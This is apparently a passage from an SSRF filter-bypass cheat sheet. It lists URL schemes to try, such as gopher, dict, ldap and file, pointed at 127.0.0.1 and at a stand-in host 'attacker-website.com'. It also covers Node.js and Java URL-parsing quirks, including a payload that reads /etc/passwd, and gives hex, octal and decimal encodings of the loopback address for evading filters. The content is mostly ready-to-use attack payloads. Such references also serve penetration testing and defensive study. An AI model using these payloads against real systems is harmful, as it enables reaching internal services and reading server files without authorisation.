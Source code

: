 ### URL scheme
You can try to use different URL schemes:
```
file://path/to/file
dict://<user-;<auth-@<host-:<port-/d:<word-:<database-:<n-
dict://127.0.0.1:1337/stats
ftp://127.0.0.1/
sftp://attacker-website.com:1337/
tftp://attacker-website.com:1337/TESTUDPPACKET
ldap://127.0.0.1:389/%0astats%0aquit
ldaps://127.0.0.1:389/%0astats%0aquit
ldapi://127.0.0.1:389/%0astats%0aquit
gopher://attacker-website.com/_SSRF%0ATest!
```

#### Node.js
Node.js for Windows considers any single letter in a URL scheme as drive://filepath and set the protocol to file://.
```
// Node.js (Windows only)
// the following row will return `file:`
new URL('l://file').protocol
```

#### Java
Java's URL will correctly handle the next URLs:
```
url:file:///etc/passwd
url:http://127.0.0.1:8080
```

## IP address formats

You can try using a different IP address format to bypass the filter.

#### Rare IP address
Rare IP address formats, defined in :
-Dotted hexadecimal IP: 0x7f.0x0.0x0.0x1

-Dotless hexadecimal IP: 0x7f001

-Dotless hexadecimal IP with padding: 0x0a0b0c0d7f000001 (padding is 0a0b0c0d)

-Dotless decimal IP: 2130706433

-Dotted decimal IP with overflow (256): 383.256.256.257

-Dotted octal IP: 0177.0.0.01

-Dotless octal IP: 017700000001

-Dotted octal IP with padding: 00177.000.0000.000001

-Combined:
```
0x7f.0.1
0x7f.1
00177.1
00177.0x0.1
```
